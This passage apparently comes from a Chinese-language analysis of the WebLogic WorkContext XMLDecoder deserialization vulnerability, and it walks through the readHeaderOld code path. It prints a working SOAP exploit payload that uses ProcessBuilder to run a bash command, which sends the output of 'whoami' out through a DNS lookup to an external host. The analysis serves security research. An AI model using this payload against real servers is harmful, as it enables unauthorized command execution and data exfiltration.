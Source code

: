 将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:


```bash
com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<java version="1.8.0_131" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>
```

![](images/15893754275556.png)


WorkContextTube.class


```java
protected void readHeaderOld(Header var1) {
    try {
        XMLStreamReader var2 = var1.readHeader();
        var2.nextTag();
        var2.nextTag();
        XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
        ByteArrayOutputStream var4 = new ByteArrayOutputStream();
        XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
        var3.bridge(var2, var5);
        var5.close();
        WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
        this.receive(var6);
    } catch (XMLStreamException var7) {
        throw new WebServiceException(var7);
    } catch (IOException var8) {
        throw new WebServiceException(var8);
    }
}
```
